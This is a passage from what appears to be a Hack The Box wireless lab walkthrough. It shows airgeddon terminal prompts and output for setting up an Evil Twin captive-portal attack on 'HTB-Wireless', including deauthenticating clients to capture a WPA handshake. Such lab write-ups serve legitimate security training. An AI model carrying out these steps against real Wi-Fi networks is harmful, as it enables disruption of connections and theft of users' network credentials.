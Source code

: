 ```
*Hint* If you have any doubt or problem, you can check Wiki FAQ section (https://github.com/v1s1t0r1sh3r3/airgeddon/wiki/FAQ%20&%20Troubleshooting) or ask in our Discord channel: https://discord.gg/sQ9dgt9 
--------- 
> 2
If you want to integrate "DoS pursuit mode" on an Evil Twin attack, another additional wifi interface in monitor mode will be needed to be able to perform it 

Do you want to enable "DoS pursuit mode"? This will re-launch the attack if target AP change its channel countering "channel hopping" [y/N] 
> N
```

Type `N` and press `Enter` to proceed without modifying the MAC address. Then, select `N` to allow `airgeddon` to automatically capture the handshake. For the timeout value, choose `10` seconds, then press `Enter` to continue.

```
******************* Evil Twin AP attack with captive portal ******************** 
Interface wlan0mon selected. Mode: Monitor. Supported bands: 2.4Ghz, 5Ghz 
Selected BSSID: 52:CD:8C:79:AD:87 
Selected channel: 1 
Selected ESSID: HTB-Wireless 
Deauthentication chosen method: Aireplay 
Handshake file selected: None 
--------- 
*Hint* To perform an Evil Twin attack you'll need to be very close to the target AP or have a very powerful wifi antenna. Your signal must reach clients equally strong or more than the legitimate AP 
--------- 

Do you want to spoof your MAC address during this attack? [y/N] 
> N
This attack requires that you have previously a WPA/WPA2 network captured Handshake file 

If you don't have a captured Handshake file from the target network you can get it now 
--------- 

Do you already have a captured Handshake file? Answer yes ("y") to enter the path or answer no ("n") to capture a new one now [y/N] 
> N

Type value in seconds (10-100) for timeout or press [Enter] to accept the proposal [20]: 
> 10

Timeout set to 10 seconds 

Two windows will be opened. One with the Handshake capturer and other with the attack to force clients to reconnect 

Don't close any window manually, script will do when needed. In about 10 seconds maximum you'll know if you've got the Handshake 
Press [Enter] key to continue...
```
